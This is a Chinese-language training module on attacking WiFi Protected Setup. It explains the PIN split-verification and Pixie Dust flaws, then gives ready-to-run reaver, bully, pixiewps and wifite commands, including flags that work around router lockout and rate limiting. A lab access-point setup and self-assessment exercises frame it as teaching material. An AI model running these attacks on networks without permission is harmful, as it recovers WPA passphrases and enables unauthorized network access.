

# 模块05：WPS攻击

> **学习目标**：理解WPS协议漏洞、掌握Pixie Dust攻击和PIN暴力破解
> **所需工具**：wash, reaver, bully, pixiewps, wifite

## 目录

- [[#一、WPS协议漏洞原理|WPS协议漏洞原理]]
- [[#二、WPS侦察|WPS侦察]]
- [[#三、Reaver攻击|Reaver攻击]]
- [[#四、Bully攻击|Bully攻击]]
- [[#五、Pixie Dust独立使用|Pixie Dust独立使用]]
- [[#六、Wifite WPS自动化|Wifite自动化]]
- [[#七、实践操作|实践操作]]

---

## 一、WPS协议漏洞原理

### 1.1 什么是WPS？

WPS(WiFi Protected Setup)是2007年WiFi联盟推出的便捷连接标准。

WPS支持四种认证方式：
1. **PIN方式**(最常用，也是主要攻击目标) — 用户输入AP上印的8位PIN码
2. **PBC方式**(Push Button) — 按物理按钮连接
3. **NFC方式** — 近距离触碰连接
4. **USB方式** — USB存储设备传输配置

### 1.2 PIN码的结构缺陷

8位PIN码的致命设计缺陷：

```
PIN码格式：XXXXXXXX (8位数字)
看似有 100,000,000 种可能，但实际上...

┌─────────────────────────────────────────┐
│ 前4位 (0000-9999)  │ 后3位 (000-999)  │ 校验位(1位) │
│    10,000种        │   1,000种        │    自动计算    │
└─────────────────────────────────────────┘
     分开验证！             分开验证！
   M1-M4验证前4位        M5-M8验证后4位
```

对比：
- WPA2字典破解：需要知道密码存在于字典中
- WPS PIN破解：最多11,000次一定成功！(10,000 + 1,000)
- 如果AP支持WPS，这就是"万能钥匙"

### 1.3 WPS EAP消息交换流程



为什么分两步？
- M1-M4 验证PIN前4位 (10,000种)
- M5-M8 验证PIN后4位 (1,000种 + 校验位)
- 如果前半失败，AP立即拒绝 → 不需要试后半
- 总复杂度：10,000 + 1,000 = 11,000次

### 1.4 Pixie Dust攻击原理

Pixie Dust是较新的WPS攻击方式(2014年公开)。

核心漏洞：某些WPS实现使用了弱随机数生成器(PRNG)。

```
脆弱实现中：
  - N1由弱的PRNG生成 (如线性同余生成器LCG)
  - N1可被预测或恢复
  - 如果知道N1和N2，可以推导出DHSharedSecret
  - 有了DHSharedSecret，可以直接计算AuthKey
  - 无需暴力破解PIN！几秒到几分钟完成攻击！

受影响芯片组：
  - Ralink / MediaTek (最常见)
  - Broadcom BCMxxxx (部分老版本)
  - Realtek (部分型号)
  - 某些Qualcomm Atheros设备
```

---

## 二、WPS侦察

### 2.1 基本扫描

```bash
sudo wash -i wlan0mon
```

字段说明：

| 字段 | 说明 |
|------|------|
| BSSID | AP的MAC地址 |
| Ch | 信道 |
| dBm | 信号强度 |
| WPS | Yes=支持WPS, No=不支持, Lck=已锁定 |
| Lck | WPS是否锁定 |
| Vendor | 芯片厂商(判断Pixie Dust可行性) |
| ESSID | 网络名称 |

### 2.2 高级参数

```bash
sudo wash -i wlan0mon -a        # 显示所有AP(包括不支持WPS)
sudo wash -i wlan0mon -c 6 -a   # 仅扫描信道6
sudo wash -i wlan0mon -s        # 静默模式
sudo wash -i wlan0mon -j        # JSON输出格式
sudo wash -i wlan0mon --ignore-fcs  # 忽略FCS错误
```

新版reaver(fork-t6x)中的wash：
```bash
sudo wash -i wlan0 --scan -a
# 支持Pixie Dust漏洞检测
```

### 2.3 WPS锁定机制

路由器在检测到多次WPS认证失败后可能执行：
- **临时锁定**：5分钟后恢复
- **永久锁定**：需要重启路由器
- **速率限制**：每分钟只允许几次尝试

reaver和bully可以检测并适应这些机制。

---

## 三、Reaver攻击

### 3.1 基本攻击

完整命令格式：
```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv
```

参数详解：

| 参数 | 说明 |
|------|------|
| -i wlan0mon | 使用监听模式接口 |
| -b MAC | 目标AP的BSSID |
| -c 6 | 目标信道 |
| -vv | 详细输出 |
| -K 1 | 启用Pixie Dust攻击(1=仅Pixie) |
| -p PIN | 指定已知PIN码 |
| -S | 使用小DH密钥提高速度 |
| -N | 不发送NACK |
| -r 5:10 | 每5秒尝试一次，失败后等10秒 |
| -t 20 | 接收超时(秒) |
| --no-nacks | 禁用NACK |
| --dh-small | 使用小DH密钥 |

### 3.2 Pixie Dust攻击(重点)

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K 1 -vv
```

Pixie Dust成功的关键：
- 目标AP使用Ralink/MediaTek芯片
- 固件中的PRNG实现有缺陷
- reaver自动识别并尝试

### 3.3 标准PIN暴力破解

如果Pixie Dust失败，回退到标准暴力：
```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv
```

标准流程：
1. reaver与AP建立WPS会话
2. 尝试PIN前半部分(0000到9999)
3. EAP M4收到正确响应 → PIN前半正确
4. 尝试PIN后半部分(000到999，校验位自动计算)
5. EAP M8收到正确响应 → PIN完全正确
6. AP返回WPA PSK密码

优化参数：
```bash
--pin=12345670         # 从指定PIN开始试
--session=FILE         # 保存/恢复session
--no-associate         # 不主动关联
--fail-wait=60         # 失败后等待60秒
--max-attempts=N       # 限制最大尝试次数
```

### 3.4 恢复已保存的会话

```bash
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -s reaver_session_file
```

会话文件通常保存在：
- `/etc/reaver/<BSSID>.wpc`
- `/usr/local/etc/reaver/<BSSID>.wpc`

```bash
cat /etc/reaver/AA:BB:CC:DD:EE:FF.wpc  # 查看进度
```

### 3.5 故障排除

**问题1**: "Failed to associate with target"
```bash
# 试试 --no-associate 参数
sudo reaver -i wlan0mon -b TARGET --no-associate -vv
```

**问题2**: "WPS transaction failed (code: 0x02)"
```bash
# 增加等待时间
sudo reaver -i wlan0mon -b TARGET -t 30 -r 3:10 -vv
```

**问题3**: "AP rate limiting detected"
```bash
# 增加等待间隔
sudo reaver -i wlan0mon -b TARGET -r 30:60 -vv
```

**问题4**: reaver卡死无进度
```bash
# Ctrl+C 终止，然后恢复session继续
sudo reaver -i wlan0mon -b TARGET -s FILE -vv
```

---

## 四、Bully攻击

### 4.1 bully vs reaver

| 特性 | reaver | bully |
|------|--------|-------|
| 语言 | C | C++ |
| 速度 | 较快 | 更快(多线程优化) |
| Pixie | 支持(-K 1) | 支持(--pixie) |
| 锁定检测 | 基本 | 更智能的锁定规避 |
| 稳定性 | 部分AP下不稳定 | 很多AP下更稳定 |

### 4.2 bully基本使用

```bash
# 基本攻击
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6

# 启用Pixie Dust
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 --pixie

# 详细输出
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -v 3
```

参数详解：
| 参数 | 说明 |
|------|------|
| -b \<MAC\> | 目标BSSID |
| -c \<channel\> | 信道 |
| -v \<level\> | 详细程度(1-3) |
| --pixie | 启用Pixie Dust攻击 |
| --pin \<PIN\> | 从指定PIN开始 |
| -p \<PIN\> | 使用已知PIN |
| -L | 强制锁定模式 |

### 4.3 bully高级会话管理

bully自动保存进度，下次运行自动恢复。

```bash
# 手动指定session文件
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -v 3 -s session_name

# 自定义尝试序列
sudo bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 --pinlist pinlist.txt
```

---

## 五、Pixie Dust独立使用

### 5.1 pixiewps独立运行

reaver/bully调用pixiewps进行离线PIN计算，也可独立运行。

需要先从WPS EAP消息中提取以下参数：
- PKE (Public Key Enrollee)
- PKR (Public Key Registrar)
- E-Hash1 (Enrollee Hash 1)
- E-Hash2 (Enrollee Hash 2)
- AuthKey
- E-Nonce (Enrollee Nonce)

```bash
# Step 1: 使用reaver获取参数
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -K 1 -vvv
# 观察Pixie-Dust输出中的参数值

# Step 2: 手动运行pixiewps
pixiewps -e <PKE> -r <PKR> -s <E-Hash1> -z <E-Hash2> \
  -a <AuthKey> -n <E-Nonce>
```

### 5.2 pixiewps高级选项

```bash
pixiewps --pixie-dust           # 强制Pixie Dust模式
pixiewps --dh-small             # DH Small Keys攻击
pixiewps -e ... -r ... --force  # 尝试所有可用方式
```

---

## 六、Wifite WPS自动化

### 6.1 WPS模式

```bash
sudo wifite --wps
```

wifite的WPS攻击流程：
1. 自动扫描WPS设备
2. 按信号强度排序
3. 对每个目标：
   a) 首选尝试Pixie Dust攻击
   b) Pixie失败后回退标准PIN暴力
   c) 智能处理WPS锁定
4. 破解成功后提取WPA PSK

### 6.2 高级选项

```bash
sudo wifite --wps --pixie                       # 仅Pixie Dust
sudo wifite --wps --no-pixie                    # 禁用Pixie Dust
sudo wifite --wps --all                          # 攻击所有目标
sudo wifite --wps -b AA:BB:CC:DD:EE:FF -c 6     # 指定目标
sudo wifite --wps --daemon                       # 守护模式
```

### 6.3 已知PIN验证

如果已知PIN码(如从路由器标签读取)：
```bash
sudo reaver -i wlan0mon -b <BSSID> -c <CH> -p 12345670 -vv
# 输出直接包含WPA PSK
```

---

## 七、实践操作

### 7.1 搭建WPS测试AP

```bash
cat > /tmp/hostapd_wps.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=WPS_Test_Lab
hw_mode=g
channel=6
wpa=2
wpa_passphrase=test12345
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wps_state=2
ap_setup_locked=0
config_methods=label display push_button keypad
eap_server=1
EOF
sudo hostapd /tmp/hostapd_wps.conf
```

### 7.2 WPS扫描与目标选择

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo wash -i wlan0mon -a
# 观察：哪些AP支持WPS？哪些已被锁定？哪些使用Ralink芯片？
```

### 7.3 Reaver PIN暴力

```bash
sudo reaver -i wlan0mon -b <TARGET_BSSID> -c <CHANNEL> -vv
# 平均时间：2-10小时
# 如果Pixie Dust成功：几秒到几分钟
```

### 7.4 Pixie Dust攻击

```bash
# 先检查芯片类型
sudo wash -i wlan0mon -a
# 找出Vendor为Ralink/MediaTek的目标

# 启动Pixie Dust
sudo reaver -i wlan0mon -b <Ralink_BSSID> -c <CH> -K 1 -vv
```

### 7.5 Bully对比

```bash
# bully标准模式
sudo bully wlan0mon -b <BSSID> -c <CH> -v 3

# bully Pixie模式
sudo bully wlan0mon -b <BSSID> -c <CH> --pixie -v 3
```

### 7.6 Wifite全自动

```bash
sudo wifite --wps --pixie
# 等待扫描 → 选择目标 → 自动攻击
```

---

## 课后练习

1. 用自己的语言解释WPS PIN码的10^4+10^3漏洞原理
2. 用Wireshark分析一次完整的WPS EAP消息交换
3. 对比reaver和bully在3个不同AP上的表现
4. 研究Pixie Dust攻击的数学原理(DH密钥交换弱点)
5. 尝试在已锁定WPS的AP上进行攻击(分析锁定机制)
6. 对你的家用路由器做WPS安全评估，必要时禁用WPS

---

> **相关模块**：[[02-无线侦察与扫描|无线侦察]] | [[04-WPA-WPA2破解|WPA2破解]] | [[07-无线安全综合实战|综合实战]]

[[../总目录与快速查询|← 返回总目录]]
